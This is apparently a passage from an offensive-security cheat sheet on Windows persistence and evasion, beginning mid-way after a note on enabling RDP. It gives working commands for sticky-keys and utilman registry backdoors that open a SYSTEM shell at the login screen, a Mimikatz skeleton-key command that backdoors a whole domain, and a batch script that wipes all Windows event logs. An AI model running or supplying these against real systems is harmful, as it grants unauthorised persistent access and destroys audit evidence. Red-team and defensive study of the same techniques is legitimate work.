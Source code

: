 The first argument represents AllowTSConnections(0 – disable, 1 – enable) and the second one represents ModifyFirewallException (0 – don’t modify firewall rules, 1 – modify firewall rules). You can read more about it at [https://docs.microsoft.com/en-us/windows/win32/termserv/win32-terminalservicesetting-setallowtsconnections](https://docs.microsoft.com/en-us/windows/win32/termserv/win32-terminalservicesetting-setallowtsconnections)

### RDP Backdoors

#### utilman.exe

After adding this registry key, RDP or physically log into the machine. At the login screen, press `Win+U` to get a cmd.exe prompt as NT AUTHORITY\SYSTEM.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe

After adding this registry key, RDP or physically log into the machine. At the login screen, repeatedly press F5 when you are at the login screen to get a cmd.exe prompt as NT AUTHORITY\SYSTEM.

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Skeleton Key

Mimikatz gives you the opportunity to backdoor an entire domain at once by using the skeleton key module.  This must be run by a user with Domain Admin credentials to work properly.

```powershell
# Exploitation Command (run as Domain Admin):
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName $FQDN_of_DC

# Login using the password "mimikatz"
Enter-PSSession -ComputerName $ComputerName -Credential $Domain\$UserName
```

### Clear Windows Event Logs

Generates Windows event 1102 when you clear logs!

[https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil)

```
@echo off

FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo All Event Logs have been cleared!
goto theEnd

:do_clear
echo clearing %1
wevtutil.exe cl %1
goto :eof

:noAdmin
echo Current user permissions to execute this .BAT file are inadequate.
echo This .BAT file must be run with administrative privileges.
echo Exit now, right click on this .BAT file, and select "Run as administrator".  
pause >nul
```